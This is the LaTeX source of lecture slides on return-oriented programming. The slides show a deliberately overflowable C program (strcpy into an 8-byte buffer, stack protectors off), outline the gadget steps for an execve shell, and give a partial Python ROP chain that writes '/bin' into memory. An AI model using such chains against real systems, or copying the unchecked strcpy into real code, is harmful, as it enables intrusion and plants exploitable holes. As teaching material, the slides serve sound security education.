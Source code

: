 \documentclass[11pt]{beamer}
\begin{document}
\section{Example}
\begin{frame}[fragile]
    \frametitle{Working example: Target Program and compilation}
    \begin{itemize}
        \item We compile the following program with stack protectors turned off
    \end{itemize}
    \begin{lstlisting}[style=code, language=c]
#include <stdio.h>
#include <string.h>
int main(int argc, char *argv[])
{
    char buffer[8] = {0};
    if(argc != 2)
    {
        printf("A single argument is required.\n");
        return 1;
    }
    strcpy(buffer, argv[1]);
    return 0;
}
    \end{lstlisting}
\end{frame}
\begin{frame}
    \frametitle{Working example: Finding gadgets}
    \begin{itemize}
        \item Using ropper we can find our desired gadgets
        \item Lets say we want to execute a shell using execve, for that we need to accomplish the following goals
        \begin{enumerate}
            \item write /bin/sh into memory (at the data segment)
            \item init systemcall number (11)
            \item init systemcall argument (address of /bin//sh)
            \item call systemcall
        \end{enumerate}
    \end{itemize}
\end{frame}
\begin{frame}[fragile]
    \frametitle{Working example: Putting it together, writing /bin}
    \begin{lstlisting}[style=code, language=python]
from struct import pack

p = 'AAAABBBBCCCC'
p += pack('<I', 0x080958b5) # pop edx; xor eax, eax; pop edi; ret;
p += pack('<I', 0x080f0f6c) # @ .data
p += pack('<I', 0x00000000) # @ NULL
p += pack('<I', 0x080b526a) # pop eax ; ret
p += '/bin'
p += pack('<I', 0x08059402) # mov dword ptr [edx], eax ; ret
    \end{lstlisting}
\end{frame}
\end{document}

